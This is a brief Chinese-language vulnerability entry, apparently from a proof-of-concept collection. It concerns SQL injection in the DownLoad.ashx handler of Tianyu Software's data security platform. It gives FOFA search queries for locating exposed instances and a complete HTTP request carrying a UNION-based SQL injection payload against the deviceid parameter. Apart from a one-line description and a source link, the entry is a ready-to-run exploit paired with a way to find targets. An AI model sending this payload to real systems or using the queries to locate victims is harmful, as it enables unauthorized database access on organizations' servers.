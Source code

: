 # 天喻软件数据安全平台DownLoad.ashx存在SQL注入

天喻软件数据安全平台接口`  /handler/DownLoad.ashx?operatetype=downloadsetupdll&deviceid= `存在SQL注入

## fofa

```yaml
app="天喻软件数据安全平台"
body="数据安全" && body="天喻"
```

## poc

```json
GET /handler/DownLoad.ashx?operatetype=downloadsetupdll&deviceid=1%27+UNION+ALL+SELECT+CHAR%28113%29%2BCHAR%2898%29%2BCHAR%28118%29%2BCHAR%28112%29%2BCHAR%28113%29%2BCHAR%2880%29%2BCHAR%28100%29%2BCHAR%2873%29%2BCHAR%28122%29%2BCHAR%2878%29%2BCHAR%2882%29%2BCHAR%2886%29%2BCHAR%28103%29%2BCHAR%2875%29%2BCHAR%2888%29%2BCHAR%28109%29%2BCHAR%2874%29%2BCHAR%28101%29%2BCHAR%2868%29%2BCHAR%28111%29%2BCHAR%2889%29%2BCHAR%28111%29%2BCHAR%28114%29%2BCHAR%28114%29%2BCHAR%2869%29%2BCHAR%2886%29%2BCHAR%2869%29%2BCHAR%28122%29%2BCHAR%2881%29%2BCHAR%2882%29%2BCHAR%2883%29%2BCHAR%2868%29%2BCHAR%28110%29%2BCHAR%28114%29%2BCHAR%28103%29%2BCHAR%28119%29%2BCHAR%2881%29%2BCHAR%2899%29%2BCHAR%28120%29%2BCHAR%28110%29%2BCHAR%28104%29%2BCHAR%2872%29%2BCHAR%2885%29%2BCHAR%28111%29%2BCHAR%2868%29%2BCHAR%28113%29%2BCHAR%28106%29%2BCHAR%28107%29%2BCHAR%2898%29%2BCHAR%28113%29%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL--+FVCt HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=1
```

![image-20240713004046148](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407130040230.png)

## 漏洞来源

- https://mp.weixin.qq.com/s/uRI79A1q6dJLd965fjkSyw